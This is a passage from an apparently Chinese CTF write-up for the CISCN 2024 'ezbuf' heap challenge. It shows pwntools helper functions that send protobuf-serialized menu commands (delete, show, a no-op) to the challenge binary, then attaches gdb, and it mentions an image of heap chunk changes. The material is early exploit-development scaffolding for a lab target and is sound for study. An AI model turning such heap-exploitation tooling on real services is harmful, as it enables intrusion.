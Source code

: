 ```python
    data.whatidx = idx
    data.whatsize = 0
    data.whatsthis = 0
    data = data.SerializeToString()
    p.recvuntil(b'WANT?\n')
    p.send(data)
 
def delete(idx):
    data = heybro_pb2.heybro()
    data.whattodo = 2
    data.whatcon = b'0'
    data.whatidx = idx
    data.whatsize = 1
    data.whatsthis = 1
    data = data.SerializeToString()
    p.recvuntil(b'WANT?\n')
    p.send(data)
 
def show(idx):
    data = heybro_pb2.heybro()
    data.whattodo = 3
    data.whatcon = b'0'
    data.whatidx = idx
    data.whatsize = 1
    data.whatsthis = 1
    data = data.SerializeToString()
    p.recvuntil(b'WANT?\n')
    p.send(data)
 
def do_nothing(content):
    data = heybro_pb2.heybro()
    data.whattodo = 0
    data.whatcon = content
    data.whatidx = 1
    data.whatsize = 1
    data.whatsthis = 1
    data = data.SerializeToString()
    p.recvuntil(b'WANT?\n')
    p.send(data)    

gdb.attach(p)
create(0,b'aaaaaaaa')
show(0)

p.interactive()
```
编写这样的程序，调试运行。
第一张是解包函数运行后的堆块变化
![](ciscn2024-初赛-wp/ciscn2024-ezbuf-heap-cmp-1.png)
